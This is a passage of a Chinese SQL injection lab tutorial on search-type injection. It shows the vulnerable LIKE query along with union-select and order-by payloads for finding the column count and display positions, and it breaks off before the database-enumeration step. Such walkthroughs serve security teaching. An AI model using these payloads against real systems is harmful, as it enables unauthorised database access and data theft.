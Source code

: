 ![image-20220125152204732](https://gitee.com/xxb667/img/raw/master/img/image-20220125152204732.png)

## 4.5.搜索型注入

使用的sql语句

```
select username,id,email from member where username like '%输入的内容%';
```

### 判断sql注入类别

```
#查看页面变化，判断sql注入类别 
k
```

进行模糊搜索like语句

![image-20220126202818078](https://gitee.com/xxb667/img/raw/master/img/image-20220126202818078.png)

### 查看显示位

可以判断要显示的字段个数

```
#联合查询查看显示位 
x%' union select 1,2,3# 
```

![image-20220126203259028](https://gitee.com/xxb667/img/raw/master/img/image-20220126203259028.png)

### 确定字段数

```
#确定字段数【3】

x%' order by 3 # 无结果
x%' order by 4 # 出错
```

![image-20220126203452099](https://gitee.com/xxb667/img/raw/master/img/image-20220126203452099.png)

出错信息

```
Unknown column '4' in 'order clause'
```

![image-20220126203510272](https://gitee.com/xxb667/img/raw/master/img/image-20220126203510272.png)

### 爆库

查看所有数据库名称
